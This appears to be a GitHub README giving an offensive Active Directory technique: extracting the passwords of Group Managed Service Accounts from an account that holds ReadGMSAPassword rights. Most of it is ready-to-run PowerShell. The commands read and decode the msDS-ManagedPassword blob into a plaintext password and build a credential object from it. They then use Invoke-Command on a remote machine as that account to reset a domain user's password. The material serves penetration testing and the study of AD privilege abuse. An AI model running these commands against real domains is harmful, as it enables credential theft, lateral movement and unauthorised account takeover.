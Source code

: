 # Group Managed Service Accounts
Retrieve passwords from Group Managed Service Accounts (GMSA) that you have ReadGMSAPassword permissions over.

If the user you have owned has ReadGMSAPassword permissions over a GMSA you are able to retreive this users password.

<img src="https://raw.githubusercontent.com/glowbase/group-managed-service-accounts/main/20220809203905465.png" width="500px" />

```powershell
$gmsa = Get-ADServiceAccount -Identity 'GMSA-USER' -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'

ConvertFrom-ADManagedPasswordBlob $mp
```

You can either obtain and reuse the plaintext password or invoke commands as the GMSA.

```powershell
# Create credential object.
$cred = new-object system.management.automation.PSCredential "DOMAIN\GMSA-USER",(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
```

Execute commands via `Invoke-Command` as GMSA.

```powershell
Invoke-Command -ComputerName COMPUTER_NAME -Credential $cred -ScriptBlock {net user someuser password123! /domain}
```

## Additional Resources
- Additional GMSA Attacks - [https://adsecurity.org/?p=4367](https://adsecurity.org/?p=4367)
- Overview of GMSA - [https://docs.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview](https://docs.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview)
